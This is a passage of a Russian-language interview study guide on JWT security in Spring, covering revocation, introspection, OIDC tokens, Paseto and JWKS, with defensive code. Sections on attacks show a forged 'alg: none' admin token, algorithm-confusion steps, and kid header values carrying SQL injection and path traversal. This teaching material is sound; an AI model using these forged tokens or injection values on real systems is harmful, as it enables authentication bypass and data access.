| **Короткий TTL** | AT на 5-15 минут | Не немедленно, но мала возможность злоупотребления |
| **Token Blacklist** | Хранить `jti` отозванных токенов в Redis | Теряется stateless-ность |
| **Версионирование** | Хранить `token_version` в БД, проверять каждый запрос | Теряется stateless-ность |
| **Short-lived AT + RT Rotation** | Быстро истекающий AT + немедленный отзыв RT | Лучший баланс |

```java
// Blacklist-проверка через Redis
@Component
public class JwtBlacklistFilter extends OncePerRequestFilter {
    private final RedisTemplate<String, String> redisTemplate;

    @Override
    protected void doFilterInternal(HttpServletRequest request,
                                    HttpServletResponse response,
                                    FilterChain chain) {
        String jti = extractJti(request);
        if (redisTemplate.hasKey("blacklist:" + jti)) {
            response.setStatus(HttpServletResponse.SC_UNAUTHORIZED);
            return;
        }
        chain.doFilter(request, response);
    }
}
```

**Рекомендация:** Access Token — 5-15 минут (stateless), Refresh Token — хранить в БД с возможностью отзыва.

---

## Q20. Что такое Token Introspection?

**Token Introspection** (RFC 7662) — механизм, при котором Resource Server запрашивает Authorization Server для проверки валидности токена в реальном времени.



**Когда использовать вместо JWT:**
- Opaque tokens (непрозрачные) — нельзя декодировать без AS
- Требуется немедленный отзыв без ожидания истечения `exp`
- Высокие security-требования (финансы, медицина)

**Trade-off:** каждый запрос добавляет latency (запрос к AS). Решение — кэшировать результат на короткое время.

---

## Q21. Как использовать claim `jti` для blacklisting?

`jti` (JWT ID) — уникальный идентификатор токена. Используется для:
- Предотвращения повторного использования токена (replay attack)
- Реализации blacklist отозванных токенов

```java
// Генерация JWT с jti
String jwtId = UUID.randomUUID().toString();

String token = Jwts.builder()
    .setId(jwtId)  // устанавливает jti
    .setSubject("user123")
    .setExpiration(new Date(System.currentTimeMillis() + 3600_000))
    .signWith(signingKey, SignatureAlgorithm.HS256)
    .compact();

// Отзыв токена — добавить jti в Redis с TTL = exp токена
public void revokeToken(String jti, long expiration) {
    long ttl = expiration - System.currentTimeMillis();
    redisTemplate.opsForValue().set(
        "revoked:" + jti, "true", ttl, TimeUnit.MILLISECONDS
    );
}

// Проверка при запросе
public boolean isRevoked(String jti) {
    return Boolean.TRUE.equals(redisTemplate.hasKey("revoked:" + jti));
}
```

---

## Q22. (!) JWT vs Session-based аутентификация — сравнение и trade-offs

| Критерий | JWT (Stateless) | Session (Stateful) |
|----------|-----------------|-------------------|
| **Состояние** | Нет на сервере | Хранится в БД/Redis |
| **Масштабирование** | Горизонтальное легко | Нужен sticky sessions или shared store |
| **Отзыв** | Сложен без blacklist | Мгновенный (удалить сессию) |
| **Размер** | Крупнее (Base64 claims) | Маленький ID в cookie |
| **Нагрузка на БД** | Низкая (stateless) | Высокая (каждый запрос) |
| **Применение** | API, микросервисы, мобильные | Web-приложения, монолит |
| **Безопасность** | Payload виден | Данные только на сервере |

**Вывод:** JWT — не всегда лучше. Для традиционных веб-приложений сессии проще и безопаснее (мгновенный отзыв, меньше attack surface). JWT оптимален для stateless API и межсервисного взаимодействия.

---

## Q23. Является ли JWT stateless?

**Да, но с оговорками.** Стандартный JWT stateless — сервер не хранит информацию о выданных токенах и верифицирует подпись самостоятельно.

**Нарушают stateless-ность:**
- Blacklist токенов в Redis/БД
- Проверка версии токена (`token_version` в БД)
- Token Introspection

**Преимущества stateless JWT:**
- Не нужен центральный store сессий
- Горизонтальное масштабирование без синхронизации
- Подходит для микросервисов (каждый верифицирует публичным ключом)

**Риск:** если нужен мгновенный отзыв — придётся пожертвовать stateless-ностью.

---

## Q24. (!) Атака «алгоритм none» — в чём суть и как защититься?

**Суть атаки:** RFC 7518 определяет алгоритм `none`, означающий «без подписи». Если сервер принимает `alg: none` из заголовка токена — злоумышленник может создать произвольный токен без подписи:

```json
// Вредоносный header
{
  "alg": "none",
  "typ": "JWT"
}
// Вредоносный payload
{
  "sub": "admin",
  "roles": ["ROLE_ADMIN"]
}
// Signature — пустая строка
// Результирующий JWT: header.payload.
```

Злоумышленник может стать администратором без знания секрета!

**Защита:**
```java
// Явно указывать ожидаемые алгоритмы
Jwts.parserBuilder()
    .setSigningKey(key)
    // JJWT автоматически отклоняет "none" если указан ключ
    .build();

// Spring Security — NimbusJwtDecoder по умолчанию не принимает "none"
// Для ручного парсинга — всегда whitelist алгоритмов:
JWTProcessor<SecurityContext> processor = new DefaultJWTProcessor<>();
processor.setJWSKeySelector(new JWSAlgorithmFamilyKeySelector<>(
    JWSAlgorithm.Family.RSA,
    keySource
));
```

**Никогда** не принимать алгоритм из самого токена — только из конфигурации сервера.

---

## Q25. (!) Что такое Algorithm Confusion Attack (RS256 → HS256)?

**Algorithm Confusion Attack** — эксплуатирует неправильную реализацию верификации JWT:

**Сценарий:**
1. Сервер использует RS256 и публикует публичный ключ (доступен всем)
2. Злоумышленник меняет `alg` в header с `RS256` на `HS256`
3. Создаёт подпись с использованием **публичного RSA ключа как HMAC-секрета**
4. Уязвимая библиотека верифицирует подпись: `HMAC(payload, publicKey)` — успешно!
5. Злоумышленник получает произвольный токен



**Защита:**
```java
// Никогда не доверять alg из заголовка токена
// Всегда использовать whitelist на стороне сервера:

// Spring Security OAuth2 Resource Server — безопасно по умолчанию
@Bean
public JwtDecoder jwtDecoder() {
    NimbusJwtDecoder decoder = NimbusJwtDecoder
        .withPublicKey(rsaPublicKey)
        .build();
    // Принимает только RS256
    return decoder;
}

// JJWT — explicit algorithm
Jwts.parserBuilder()
    .setSigningKey(rsaPublicKey)  // только RSA verify
    .build()
    .parseClaimsJws(token);
```

---

## Q26. Какие ещё уязвимости JWT существуют?

| Уязвимость | Описание | Защита |
|------------|----------|--------|
| **Weak Secret** | Короткий/предсказуемый HMAC-секрет — поддаётся brute-force | Минимум 256 бит случайного секрета |
| **Отсутствие exp валидации** | Токен никогда не истекает для сервера | Всегда проверять `exp` |
| **Отсутствие aud валидации** | Токен для одного сервиса принимается другим | Проверять `aud` |
| **Sensitive Data в Payload** | Пароли, PAN, SSN в незашифрованном payload | Только non-sensitive данные или JWE |
| **Replay Attack** | Перехваченный валидный токен используется повторно | Короткий TTL + `jti` blacklist |
| **Kid Header Injection** | Манипуляция `kid` для выбора вредоносного ключа | Валидировать `kid` против whitelist |

---

## Q27. Что такое JWT Header Injection?

**`kid` (Key ID) Header Injection** — атака на реализации, которые динамически загружают ключи по значению `kid` из заголовка JWT.

**SQL Injection вариант:**
```json
{
  "alg": "HS256",
  "kid": "' UNION SELECT 'attacker-secret' --"
}
```
Если код делает `SELECT key FROM keys WHERE id = '{kid}'` — SQL-инъекция позволяет указать произвольный секрет.

**Path Traversal вариант:**
```json
{
  "kid": "../../etc/passwd"
}
```

**Защита:**
- Никогда не использовать `kid` напрямую в SQL-запросе
- Whitelist допустимых `kid` значений
- Параметризованные запросы
- UUID формат для `kid`

---

## Q28. (!) Как настроить Spring Security Resource Server с JWT?

```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
        http
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/public/**").permitAll()
                .anyRequest().authenticated()
            )
            .oauth2ResourceServer(oauth2 -> oauth2
                .jwt(jwt -> jwt
                    .decoder(jwtDecoder())
                    .jwtAuthenticationConverter(jwtAuthenticationConverter())
                )
            )
            .sessionManagement(session -> session
                .sessionCreationPolicy(SessionCreationPolicy.STATELESS)
            )
            .csrf(AbstractHttpConfigurer::disable);  // stateless API
        return http.build();
    }

    @Bean
    public JwtDecoder jwtDecoder() {
        // Вариант 1: JWKS URI (для OAuth2/OIDC)
        return NimbusJwtDecoder
            .withJwkSetUri("https://auth.example.com/.well-known/jwks.json")
            .build();

        // Вариант 2: Публичный ключ (для собственного AS)
        // return NimbusJwtDecoder.withPublicKey(rsaPublicKey).build();

        // Вариант 3: Секрет (для HS256)
        // return NimbusJwtDecoder.withSecretKey(secretKey).build();
    }

    @Bean
    public JwtAuthenticationConverter jwtAuthenticationConverter() {
        JwtGrantedAuthoritiesConverter authoritiesConverter =
            new JwtGrantedAuthoritiesConverter();
        authoritiesConverter.setAuthorityPrefix("ROLE_");
        authoritiesConverter.setAuthoritiesClaimName("roles");

        JwtAuthenticationConverter converter = new JwtAuthenticationConverter();
        converter.setJwtGrantedAuthoritiesConverter(authoritiesConverter);
        return converter;
    }
}
```

Конфигурация через `application.yml`:
```yaml
spring:
  security:
    oauth2:
      resourceserver:
        jwt:
          jwk-set-uri: https://auth.example.com/.well-known/jwks.json
          # или
          issuer-uri: https://auth.example.com
```

---

## Q29. Что такое JwtDecoder и как его настроить?

`JwtDecoder` — Spring Security интерфейс для декодирования и валидации JWT. Основная реализация — `NimbusJwtDecoder` (использует библиотеку Nimbus JOSE+JWT).

```java
// Настройка кастомной валидации (дополнительные claims)
@Bean
public JwtDecoder jwtDecoder() {
    NimbusJwtDecoder decoder = NimbusJwtDecoder
        .withJwkSetUri(jwkSetUri)
        .build();

    // Добавить кастомные валидаторы
    OAuth2TokenValidator<Jwt> audienceValidator = token -> {
        if (token.getAudience().contains("my-api")) {
            return OAuth2TokenValidatorResult.success();
        }
        return OAuth2TokenValidatorResult.failure(
            new OAuth2Error("invalid_token", "Wrong audience", null)
        );
    };

    OAuth2TokenValidator<Jwt> withIssuer =
        JwtValidators.createDefaultWithIssuer("https://auth.example.com");

    OAuth2TokenValidator<Jwt> withAudience =
        new DelegatingOAuth2TokenValidator<>(withIssuer, audienceValidator);

    decoder.setJwtValidator(withAudience);
    return decoder;
}
```

---

## Q30. Как маппировать authorities из JWT claims в Spring Security?

По умолчанию Spring Security ищет claim `scope` или `scp` и создаёт authorities с префиксом `SCOPE_`. Для кастомного маппинга:

```java
@Bean
public JwtAuthenticationConverter jwtAuthenticationConverter() {
    // Кастомный конвертер для ролей
    JwtGrantedAuthoritiesConverter converter = new JwtGrantedAuthoritiesConverter();
    converter.setAuthoritiesClaimName("roles");     // claim с ролями
    converter.setAuthorityPrefix("ROLE_");           // префикс

    JwtAuthenticationConverter jwtConverter = new JwtAuthenticationConverter();
    jwtConverter.setJwtGrantedAuthoritiesConverter(converter);
    return jwtConverter;
}

// Использование в контроллере
@GetMapping("/admin")
@PreAuthorize("hasRole('ADMIN')")
public String adminEndpoint(Authentication auth) {
    // auth.getAuthorities() содержит ROLE_ADMIN, ROLE_USER и т.д.
    return "admin content";
}
```

Для сложного маппинга (вложенные claims, несколько источников):
```java
converter.setJwtGrantedAuthoritiesConverter(jwt -> {
    List<String> roles = jwt.getClaimAsStringList("realm_access.roles");
    List<String> scopes = jwt.getClaimAsStringList("scope");
    // объединить и конвертировать в GrantedAuthority
});
```

---

## Q31. Как генерировать JWT в Spring Boot приложении?

```java
// Зависимость: implementation 'io.jsonwebtoken:jjwt-api:0.12.3'

@Service
public class JwtTokenService {

    @Value("${jwt.secret}")
    private String secret;

    @Value("${jwt.access-token-expiration:900}")  // 15 минут
    private long accessTokenExpiration;

    private SecretKey getSigningKey() {
        return Keys.hmacShaKeyFor(
            Decoders.BASE64.decode(secret)
        );
    }

    public String generateAccessToken(String userId, List<String> roles) {
        Instant now = Instant.now();
        return Jwts.builder()
            .subject(userId)
            .issuer("https://my-app.example.com")
            .audience().add("my-api").and()
            .issuedAt(Date.from(now))
            .expiration(Date.from(now.plusSeconds(accessTokenExpiration)))
            .id(UUID.randomUUID().toString())  // jti
            .claim("roles", roles)
            .signWith(getSigningKey())
            .compact();
    }

    public Claims validateAndParse(String token) {
        return Jwts.parser()
            .verifyWith(getSigningKey())
            .build()
            .parseSignedClaims(token)
            .getPayload();
    }
}
```

---

## Q32. Как тестировать JWT-защищённые эндпоинты в Spring?

```java
@SpringBootTest
@AutoConfigureMockMvc
class SecuredControllerTest {

    @Autowired
    private MockMvc mockMvc;

    // Вариант 1: @WithMockUser для unit-тестов
    @Test
    @WithMockUser(roles = "ADMIN")
    void adminEndpoint_withAdminRole_returns200() throws Exception {
        mockMvc.perform(get("/api/admin"))
            .andExpect(status().isOk());
    }

    // Вариант 2: Mock JwtDecoder (для Resource Server)
    @MockBean
    private JwtDecoder jwtDecoder;

    @Test
    void securedEndpoint_withValidJwt_returns200() throws Exception {
        Jwt jwt = Jwt.withTokenValue("test-token")
            .header("alg", "none")
            .claim("sub", "user123")
            .claim("roles", List.of("USER"))
            .issuedAt(Instant.now())
            .expiresAt(Instant.now().plusSeconds(3600))
            .build();

        when(jwtDecoder.decode(anyString())).thenReturn(jwt);

        mockMvc.perform(get("/api/data")
                .header("Authorization", "Bearer test-token"))
            .andExpect(status().isOk());
    }
}
```

---

## Q33. (!) Какую роль играет JWT в OpenID Connect?

**OpenID Connect (OIDC)** — протокол идентификации поверх OAuth2, использует JWT как основной формат для **ID Token**.



**ID Token** — JWT, содержащий информацию об аутентификации пользователя:
```json
{
  "iss": "https://accounts.google.com",
  "sub": "1234567890",
  "aud": "my-client-id",
  "exp": 1700003600,
  "iat": 1700000000,
  "auth_time": 1700000000,
  "name": "John Doe",
  "email": "john@example.com",
  "picture": "https://...",
  "nonce": "random-nonce"  // защита от replay attacks
}
```

**Важные отличия:**
- ID Token предназначен **для клиента** (читать и доверять содержимому)
- Access Token предназначен **для Resource Server** (использовать для доступа к ресурсам)
- ID Token нельзя использовать как Access Token!

---

## Q34. Что такое ID Token и чем он отличается от Access Token?

| Критерий | ID Token | Access Token |
|----------|----------|-------------|
| **Назначение** | Идентификация пользователя | Доступ к ресурсам |
| **Потребитель** | Client Application | Resource Server |
| **Формат** | Всегда JWT (OIDC) | JWT или Opaque |
| **Claims** | Информация о пользователе (`name`, `email`) | Scopes, permissions |
| **Валидация** | Клиентом (проверка `aud` = client_id) | Resource Server |
| **Отправка API** | Никогда | В каждом запросе |

**Ошибка:** отправлять ID Token в API как Access Token — нарушение OIDC и security-риск.

---

## Q35. (!) Какие best practices при работе с JWT?

**Генерация и подпись:**
- Использовать RS256/ES256 вместо HS256 в распределённых системах
- Для HS256 — секрет минимум 256 бит (32 байта), случайный
- Использовать зрелые библиотеки (JJWT, Nimbus JOSE+JWT) — не реализовывать самостоятельно

**Содержимое токена:**
- Не хранить чувствительные данные (пароли, PAN, PII) в payload без JWE
- Минимальный набор claims — только необходимые
- Всегда устанавливать `exp`, `iss`, `aud`, `jti`

**Валидация:**
- Whitelist разрешённых алгоритмов на сервере
- Никогда не доверять `alg` из заголовка токена
- Проверять `exp`, `iss`, `aud` обязательно
- Использовать Time Clock Skew (leeway) для `exp` — небольшое допущение для синхронизации часов

**Хранение и передача:**
- Access Token — in-memory или sessionStorage (короткоживущий)
- Refresh Token — httpOnly Secure SameSite cookie
- Передавать только через HTTPS
- Authorization header: `Bearer <token>`

**Управление жизненным циклом:**
- Короткий TTL для Access Token (5-15 минут)
- Refresh Token Rotation обязателен
- Реализовать отзыв Refresh Token при logout

---

## Q36. Какой должен быть срок жизни Access Token и Refresh Token?

| Тип | Рекомендуемый TTL | Обоснование |
|-----|-------------------|-------------|
| **Access Token** | 5–15 минут | Минимальное окно при компрометации |
| **Refresh Token** | 7–30 дней | Комфорт пользователя vs безопасность |
| **Refresh Token (sensitive)** | 1–24 часа | Финансовые, медицинские системы |
| **ID Token** | 5–60 минут | Только для аутентификации |

**Факторы выбора:**
- Уровень риска приложения
- UX (частота повторного логина)
- Наличие Refresh Token Rotation
- Критичность данных

**Антипаттерн:** долгоживущие Access Token (часы/дни) ради «удобства» — значительный security-риск.

---

## Q37. Стоит ли хранить чувствительные данные в JWT payload?

**Нет**, если не используется `JWE`. Причины:

1. **Payload виден** — Base64URL легко декодировать
2. **Токен хранится на клиенте** — localStorage, cookie, memory — все потенциально уязвимы
3. **Логи** — токены могут попасть в логи access log, debug-вывод
4. **Token Leakage через Referrer header** — если токен в URL

**Что не класть в JWT payload:**
- Пароли, секретные ключи
- Номера карт (PAN), CVV
- Social Security Numbers, паспортные данные
- Медицинские данные

**Что допустимо:**
- `userId`, `username`
- Роли и permissions
- `tenantId`, `organizationId`
- Публичные идентификаторы

**Если нужна конфиденциальность payload** — использовать **JWE** (JSON Web Encryption):
```
eyJhbGciOiJSU0EtT0FFUCIsImVuYyI6IkEyNTZHQ00ifQ.
<encrypted_key>.<iv>.<ciphertext>.<auth_tag>
```

---

## Q38. Как JWT используется в OAuth 2.0 и OIDC?

В OAuth 2.0 и OpenID Connect (OIDC) JWT выступает стандартным форматом для двух видов токенов с разными назначениями.

**JWT как Access Token (OAuth 2.0):**

```
Клиент → Authorization Server: запрос токена
Authorization Server → Клиент: {access_token: "eyJ...", token_type: "Bearer", expires_in: 3600}
Клиент → Resource Server: Authorization: Bearer eyJ...
Resource Server: проверяет подпись JWT (без обращения к AS)
```

Типичный payload Access Token:
```json
{
  "iss": "https://auth.example.com",
  "sub": "user-123",
  "aud": ["api.example.com"],
  "exp": 1700003600,
  "iat": 1700000000,
  "jti": "unique-token-id",
  "scope": "read:users write:orders",
  "client_id": "mobile-app"
}
```

**JWT как ID Token (OIDC):**

ID Token — это дополнительный токен, специфичный для OIDC. Он несёт **информацию об аутентификации пользователя**, а не авторизации ресурса.

```json
{
  "iss": "https://auth.example.com",
  "sub": "user-123",
  "aud": "client-app-id",
  "exp": 1700003600,
  "iat": 1700000000,
  "auth_time": 1699999000,
  "nonce": "n-0S6_WzA2Mj",        // защита от replay
  "name": "Alice Smith",
  "email": "alice@example.com",
  "picture": "https://...",
  "email_verified": true
}
```

**Ключевые различия Access Token vs ID Token:**

| | Access Token | ID Token |
|--|--|--|
| Назначение | Авторизация доступа к API | Удостоверение аутентификации |
| Получатель (`aud`) | Resource Server | Клиентское приложение |
| Содержит | Scopes, permissions | Данные пользователя |
| Стандарт | OAuth 2.0 | OpenID Connect |
| Отправляется | В каждом запросе к API | Только при логине |

**Spring Security OIDC:**
```java
// Получение ID Token claims в Spring
@GetMapping("/profile")
public Mono<Map<String, Object>> profile(@AuthenticationPrincipal OidcUser user) {
    return Mono.just(Map.of(
        "name", user.getFullName(),
        "email", user.getEmail(),
        "sub", user.getSubject()
    ));
}
```

---

## Q39. JWT rotation — скользящий срок действия и silent refresh

**JWT Rotation** — механизм продления жизни сессии без повторного логина пользователя, при сохранении безопасности.

**Проблема:** Access Token имеет короткий срок (15 мин), но пользователь активно работает. Refresh Token долгий (30 дней), но если украден — компрометация на весь срок.

**Silent Refresh (бесшумное обновление):**

```
Пользователь работает:
  → Access Token (15 мин) истекает
  → Клиент АВТОМАТИЧЕСКИ отправляет Refresh Token
  → Authorization Server выдаёт новый Access Token (+ опционально новый Refresh Token)
  → Пользователь не замечает прерывания
```

**Скользящий срок (Sliding Expiration):**

```
Каждое обращение с Refresh Token → сбрасывает таймер Refresh Token
Пример:
  - Refresh Token живёт 30 дней
  - Пользователь заходит каждый день → Refresh Token обновляется, срок сдвигается
  - Пользователь не заходил 31 день → Refresh Token истёк, нужен повторный логин
```

**Реализация Refresh Token Rotation (безопасный подход):**

```
1. При каждом использовании Refresh Token → выдать НОВЫЙ Refresh Token
2. Старый Refresh Token сразу инвалидировать в БД
3. Если старый RT использован повторно → ПОДОЗРЕНИЕ НА КРАЖУ → отозвать ВСЕ RT пользователя
```

**Пример реализации в Spring:**

```java
@Service
public class TokenRotationService {

    @Transactional
    public TokenPair refreshTokens(String refreshToken) {
        RefreshTokenEntity stored = refreshTokenRepo.findByToken(refreshToken)
            .orElseThrow(() -> new InvalidTokenException("Token not found"));

        if (stored.isRevoked()) {
            // Токен уже был использован — подозрение на кражу
            refreshTokenRepo.revokeAllForUser(stored.getUserId());
            throw new SecurityException("Possible token theft detected");
        }

        if (stored.getExpiresAt().isBefore(Instant.now())) {
            throw new InvalidTokenException("Refresh token expired");
        }

        // Инвалидируем старый
        stored.setRevoked(true);
        refreshTokenRepo.save(stored);

        // Выдаём новую пару
        String newAccessToken = jwtService.generateAccessToken(stored.getUserId());
        String newRefreshToken = generateAndSaveRefreshToken(stored.getUserId());
        return new TokenPair(newAccessToken, newRefreshToken);
    }
}
```

**Silent Refresh на клиенте (JavaScript):**
```javascript
// За 30 секунд до истечения access token
const timeToRefresh = (tokenExpiry - Date.now()) - 30_000;
setTimeout(() => {
    fetch('/auth/refresh', { method: 'POST', credentials: 'include' })
        .then(res => res.json())
        .then(({ access_token }) => updateAccessToken(access_token));
}, timeToRefresh);
```

---

## Q40. Хранение JWT в мобильных приложениях — безопасные практики

Мобильные приложения не имеют `httpOnly` cookie, поэтому выбор места хранения JWT критически важен для безопасности.

**Варианты хранения и риски:**

| Хранилище | Платформа | Риски |
|-----------|-----------|-------|
| `SharedPreferences` (незащищённые) | Android | Root-доступ, backup extraction |
| `UserDefaults` (незащищённые) | iOS | Jailbreak, iCloud backup |
| `EncryptedSharedPreferences` | Android API 23+ | Нет при root без проверки integrity |
| `Keychain` | iOS | Лучший вариант на iOS |
| `Android Keystore` | Android | Аппаратный HSM (на поддерживаемых устройствах) |
| `SecureStorage` (Flutter/Xamarin) | Cross-platform | Обёртка над Keychain/Keystore |

**Рекомендованный подход:**

**Android:**
```kotlin
// EncryptedSharedPreferences (Jetpack Security)
val masterKey = MasterKey.Builder(context)
    .setKeyScheme(MasterKey.KeyScheme.AES256_GCM)
    .build()

val securePrefs = EncryptedSharedPreferences.create(
    context,
    "secure_prefs",
    masterKey,
    EncryptedSharedPreferences.PrefKeyEncryptionScheme.AES256_SIV,
    EncryptedSharedPreferences.PrefValueEncryptionScheme.AES256_GCM
)

securePrefs.edit().putString("access_token", accessToken).apply()

// Дополнительно: проверка целостности устройства через Play Integrity API
// Не хранить Refresh Token если устройство скомпрометировано
```

**iOS:**
```swift
// Keychain Services (или через SecureStorage пакет)
let query: [String: Any] = [
    kSecClass as String: kSecClassGenericPassword,
    kSecAttrService as String: "com.example.app",
    kSecAttrAccount as String: "access_token",
    kSecValueData as String: tokenData,
    kSecAttrAccessible as String: kSecAttrAccessibleWhenUnlockedThisDeviceOnly
]
SecItemAdd(query as CFDictionary, nil)
```

**Best practices для мобильных приложений:**

1. **Access Token в памяти** — минимальный срок, не сохранять на диск если возможно
2. **Refresh Token в Keychain/Keystore** — зашифрованное хранилище ОС
3. **Certificate Pinning** — защита от MITM при передаче токенов
4. **Биометрия перед использованием RT** — дополнительный фактор для чувствительных операций
5. **Короткий срок Access Token** — 5-15 минут для мобильных клиентов
6. **Не логировать токены** — проверить crash reporters (Crashlytics) на предмет попадания токенов в логи
7. **Проверка целостности устройства** — Play Integrity API (Android) / DeviceCheck (iOS) перед выдачей RT

---

## Q41. Что такое Nested JWT (JWE + JWS) и когда применять?

**Nested JWT** — это JWT, в котором payload является другим JWT. Типичная комбинация: **JWS внутри JWE** — сначала подписываем (JWS), затем шифруем (JWE).

**JWE структура (5 частей, разделённых точкой):**

```
JOSE_Header.Encrypted_Key.IV.Ciphertext.Authentication_Tag
```

**Вложенная структура Nested JWT:**

```
Исходные claims
    ↓ Подписываем (JWS, RS256)
JWS Token (eyJ...signed...eyJ)  ← содержит claims + подпись
    ↓ Шифруем (JWE, RSA-OAEP + A256GCM)
JWE Token (eyJ...encrypted)     ← payload виден только получателю
```

**Когда использовать:**

| Сценарий | Решение |
|----------|---------|
| Только аутентичность и целостность | JWS (обычный JWT с подписью) |
| Только конфиденциальность | JWE без вложенности |
| Аутентичность + конфиденциальность | Nested JWT (JWS внутри JWE) |

**Практические примеры:**
- **FAPI (Financial-grade API)** — банковские API требуют JWE для Request Objects
- **Identity assertions** — передача PII (персональных данных) между сервисами
- **Sealed envelopes** — данные зашифрованы для конкретного получателя, но подписаны отправителем

**Пример с Nimbus JOSE (Java):**

```java
// 1. Создаём JWS (подписанный токен)
JWTClaimsSet claims = new JWTClaimsSet.Builder()
    .subject("user-123")
    .claim("ssn", "123-45-6789")   // PII — нужно шифровать
    .expirationTime(new Date(System.currentTimeMillis() + 3600_000))
    .build();

SignedJWT signedJWT = new SignedJWT(
    new JWSHeader(JWSAlgorithm.RS256),
    claims
);
signedJWT.sign(new RSASSASigner(senderPrivateKey));

// 2. Шифруем JWS в JWE
JWEObject jweObject = new JWEObject(
    new JWEHeader.Builder(JWEAlgorithm.RSA_OAEP_256, EncryptionMethod.A256GCM)
        .contentType("JWT")           // cty: JWT — признак Nested JWT
        .build(),
    new Payload(signedJWT)            // подписанный токен как payload
);
jweObject.encrypt(new RSAEncrypter(recipientPublicKey));

String nestedJWT = jweObject.serialize();
// → eyJ... (JWE, нечитаем без приватного ключа получателя)
```

**Ключевой заголовок:** `"cty": "JWT"` в JWE-заголовке сигнализирует, что payload — это JWT (признак Nested JWT согласно RFC 7519).

---

## Q42. JWT vs Paseto — почему Paseto создан как альтернатива?

**Paseto** (Platform-Agnostic Security Tokens) — стандарт токенов, созданный как ответ на известные уязвимости JWT. Разработан в 2018 году как более безопасная альтернатива.

**Проблемы JWT, которые решает Paseto:**

| Проблема JWT | Решение Paseto |
|---|---|
| Algorithm confusion (RS256→HS256) | Алгоритм зафиксирован в версии токена |
| `alg: none` атака | `none` алгоритм невозможен |
| Слабые алгоритмы (HS256 с коротким ключом) | Только современные алгоритмы (Ed25519, XChaCha20) |
| Выбор шифрования vs подписи в одном API | Чёткое разделение: `local` (encrypt) и `public` (sign) |

**Версии Paseto:**

```
v1 (legacy): NIST-алгоритмы (AES-CTR, HMAC-SHA384, RSA-PSS) — для совместимости
v2 (рекомендованный): современные алгоритмы (XChaCha20-Poly1305, Ed25519)
v3: NIST + современные (для FIPS-совместимости)
v4: XChaCha20-Poly1305 + Ed25519 (рекомендован для новых проектов)
```

**Типы токенов:**
- `local` — зашифрованный (symmetric encryption, только для получателей с ключом)
- `public` — подписанный (asymmetric, верифицируется публичным ключом)

**Пример Paseto v4:**
```
v4.public.eyJzdWIiOiJ1c2VyLTEyMyIsIm5hbWUiOiJBbGljZSIsImV4cCI6IjIwMjQtMDEtMDFUMDA6MDA6MDBaIn0.<signature>
```

**Когда выбирать Paseto:**

- Новые проекты без требований JWT-совместимости
- Высокие требования к безопасности
- Хотите избежать misconfiguration (нельзя случайно выбрать слабый алгоритм)

**Когда JWT неизбежен:**

- Интеграция с OAuth 2.0 / OIDC (стандарт требует JWT)
- Сторонние Identity Provider (Keycloak, Auth0, Okta)
- Существующая инфраструктура с JWT

**Вывод для интервью:** Paseto безопаснее JWT по дизайну, но JWT — стандарт де-факто в OAuth/OIDC-экосистеме. На практике при правильной конфигурации JWT (строгая валидация алгоритма, RS256/ES256, короткий TTL) разрыв в безопасности минимален.

---

## Q43. JWKS (JSON Web Key Set) — как работает и Spring Security JwkSetUri

**JWKS** (JSON Web Key Set, RFC 7517) — стандартный формат публикации публичных ключей в JSON. Позволяет Resource Server автоматически получать и обновлять ключи для верификации JWT без ручной конфигурации.

**Структура JWKS endpoint:**

```json
// GET https://auth.example.com/.well-known/jwks.json
{
  "keys": [
    {
      "kty": "RSA",
      "use": "sig",
      "kid": "key-2024-01",
      "alg": "RS256",
      "n": "0vx7agoebGcQSuuPiLJXZptN9nndrQmbXEps2aiAFbWhM...",
      "e": "AQAB"
    },
    {
      "kty": "RSA",
      "use": "sig",
      "kid": "key-2024-02",   // второй ключ при ротации
      "alg": "RS256",
      "n": "sOWv2yuYzaRTn8RsIRs0...",
      "e": "AQAB"
    }
  ]
}
```

**Поля ключа:**
- `kty` — тип ключа (RSA, EC, oct)
- `use` — использование: `sig` (подпись) или `enc` (шифрование)
- `kid` — идентификатор ключа, совпадает с `kid` в JWT header
- `alg` — алгоритм (RS256, ES256)
- `n`, `e` — компоненты RSA публичного ключа

**Как Resource Server использует JWKS:**

```
1. Получить JWT → прочитать kid из header
2. Загрузить JWKS с endpoint AS (кешировать!)
3. Найти ключ по kid
4. Верифицировать подпись JWT этим ключом
5. При kid not found → обновить кеш JWKS (ротация ключей)
```

**Spring Security — настройка через JwkSetUri:**

```java
@Configuration
@EnableWebSecurity
public class ResourceServerConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http.oauth2ResourceServer(oauth2 -> oauth2
            .jwt(jwt -> jwt
                .jwkSetUri("https://auth.example.com/.well-known/jwks.json")
            )
        );
        return http.build();
    }
}
```

```yaml
# Или через application.yml (автоконфигурация):
spring:
  security:
    oauth2:
      resourceserver:
        jwt:
          jwk-set-uri: https://auth.example.com/.well-known/jwks.json
          # Или через issuer-uri (автообнаружение JWKS через .well-known/openid-configuration):
          # issuer-uri: https://auth.example.com
```

**Кеширование JWKS в Spring Security:**

Spring Security кеширует JWKS автоматически через `NimbusJwtDecoder`. При получении токена с неизвестным `kid` — делает один повторный запрос к JWKS endpoint (поддержка ротации ключей).

**Настройка кастомного кеширования:**
```java
@Bean
public JwtDecoder jwtDecoder() {
    return NimbusJwtDecoder.withJwkSetUri("https://auth.example.com/.well-known/jwks.json")
        .cache(Duration.ofMinutes(10))    // кеш публичных ключей
        .build();
}
```

**Ротация ключей через JWKS:**
1. AS публикует новый ключ в JWKS (с новым `kid`)
2. Начинает подписывать новые токены новым ключом
3. Старые токены с `kid` старого ключа продолжают верифицироваться
4. По истечении срока старого ключа — удалить из JWKS
5. RS автоматически обновит кеш при первом запросе с неизвестным `kid`

---

## See also

- [OAuth2](oauth2-interview.md) — протокол авторизации, в котором JWT используется как формат Access Token
- [Spring Security](../frameworks/spring/spring-security-interview.md) — настройка JWT-аутентификации, Resource Server, фильтры безопасности
- [Паттерны аутентификации](authentication-authorization-patterns-interview.md) — сравнение JWT с сессиями, SSO, SAML
- [Application Security](application-security-interview.md) — общие принципы безопасности приложений, XSS, CSRF
- [OWASP Top 10](owasp-top10-interview.md) — классификация уязвимостей, в т.ч. связанных с аутентификацией

- [Application Security](application-security-interview.md)
- [Authentication and Authorization Patterns](authentication-authorization-patterns-interview.md)
- [mTLS (Mutual TLS)](mtls-interview.md)
- [OAuth2](oauth2-interview.md)
- [OWASP Top 10](owasp-top10-interview.md)
